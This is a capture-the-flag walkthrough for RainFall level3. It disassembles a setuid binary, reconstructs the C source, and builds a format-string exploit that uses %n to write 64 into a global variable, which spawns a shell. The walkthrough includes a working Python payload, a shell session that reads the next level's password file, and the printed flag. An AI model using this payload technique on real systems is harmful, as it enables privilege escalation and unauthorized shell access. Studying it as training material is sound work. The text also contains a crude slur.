# Walkthrough

##	Program type:
Running the command `file ./level3` we see the file is 32-bit ELF executable.
```
level3@RainFall:~$ file ./level3
./level3: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x09ffd82ec8efa9293ab01a8bfde6a148d3e86131, not stripped
```
Running the command `checksec --file ./level3, we see that the stack is
executable (NX disabled).
```
level3@RainFall:~$ checksec --file ./level3
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   ./level3
```
##	Content:
```
080484a4 <v>:
 80484a4:	55                   	push   ebp
 80484a5:	89 e5                	mov    ebp,esp
 80484a7:	81 ec 18 02 00 00    	sub    esp,0x218
 80484ad:	a1 60 98 04 08       	mov    eax,ds:0x8049860
 80484b2:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 80484b6:	c7 44 24 04 00 02 00 	mov    DWORD PTR [esp+0x4],0x200
 80484bd:	00
 80484be:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]
 80484c4:	89 04 24             	mov    DWORD PTR [esp],eax
 80484c7:	e8 d4 fe ff ff       	call   80483a0 <fgets@plt>
 80484cc:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]
 80484d2:	89 04 24             	mov    DWORD PTR [esp],eax
 80484d5:	e8 b6 fe ff ff       	call   8048390 <printf@plt>
 80484da:	a1 8c 98 04 08       	mov    eax,ds:0x804988c
 80484df:	83 f8 40             	cmp    eax,0x40
 80484e2:	75 34                	jne    8048518 <v+0x74>
 80484e4:	a1 80 98 04 08       	mov    eax,ds:0x8049880
 80484e9:	89 c2                	mov    edx,eax
 80484eb:	b8 00 86 04 08       	mov    eax,0x8048600
 80484f0:	89 54 24 0c          	mov    DWORD PTR [esp+0xc],edx
 80484f4:	c7 44 24 08 0c 00 00 	mov    DWORD PTR [esp+0x8],0xc
 80484fb:	00
 80484fc:	c7 44 24 04 01 00 00 	mov    DWORD PTR [esp+0x4],0x1
 8048503:	00
 8048504:	89 04 24             	mov    DWORD PTR [esp],eax
 8048507:	e8 a4 fe ff ff       	call   80483b0 <fwrite@plt>
 804850c:	c7 04 24 0d 86 04 08 	mov    DWORD PTR [esp],0x804860d
 8048513:	e8 a8 fe ff ff       	call   80483c0 <system@plt>
 8048518:	c9                   	leave
 8048519:	c3                   	ret

0804851a <main>:
 804851a:	55                   	push   ebp
 804851b:	89 e5                	mov    ebp,esp
 804851d:	83 e4 f0             	and    esp,0xfffffff0
 8048520:	e8 7f ff ff ff       	call   80484a4 <v>
 8048525:	c9                   	leave
 8048526:	c3                   	ret
 8048527:	90                   	nop
 8048528:	90                   	nop
 8048529:	90                   	nop
 804852a:	90                   	nop
 804852b:	90                   	nop
 804852c:	90                   	nop
 804852d:	90                   	nop
 804852e:	90                   	nop
 804852f:	90                   	nop
```
* The `main` function calls `v` function.

* `fgets(3)` is called inside `v`, which is a more secured version of `gets(3)`.
Allowing to specify a number of bytes to be read, eliminating any 
possibility to do a buffer overflow (by eliminating we mean the bytes to
be read should not be more than the size of the buffer itself, otherwise 
you'are retarded, I mean the programmer).
* The buffer is passed directly as first argument to `printf(1)`, which allows
to utilize a format string vulnerability.

* There's an if condition comparing the value `0x40` (64 in decimal) with a 
certain variable (global variable).

* If they are equal, `fwrite(3)` writes the string `"Wait what?!"` and calls
`system(3)` with `"/bin/sh"` afterwards.

* There's no way to change the value of the global variable to match the 
compared value directly.

## Reversing:
Upon analyzing the disassembly code we concluded that the actual C code could be something as follows:

```C
#include <stdio.h>

int		some_variable = 0;

void	v()
{
	char	buffer[520]; // 0x208

	fgets(buffer, 512, stdin); // 0x200
	printf(buffer);
	if (some_variable == 64)
	{
		fwrite("Wait what?!", 1, 12, stdout);
		system("/bin/sh");
	}
}

int		main()
{
	v();
	return (0);
}

```
## Solution:

* The idea is to use printf(1) to put 0x40 (64 in decimal) in the global variable:
	* We need to find its address on the data segment, we can find it in the 
	disassembly of the 'v' function:
	```
	0x080484da <+54>:	mov    eax , ds:0x804988c <-- (Simple ;p)
	```
	* We will use the format string specifier %n to modify its value as follows:
	```
	"%60x%4$n"
	```
	The `"%60x"` part writes a padding of 60 bytes in the stdout, and `"%4$n"`
	counts those written bytes and writes in the target address (the 4th 
	address in the stack frame).
* Now lets write the python script that will enable us to access the shell using that vulnerability:

```python
import struct

system_addr = struct.pack('I', 0x804988c)

print system_addr + "%60x%4$n"
```
* Running the exploit give us access to an unauthorized shell:
```
level3@RainFall:~$ (python exp.py; cat -) | ./level3
�                                                         200
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```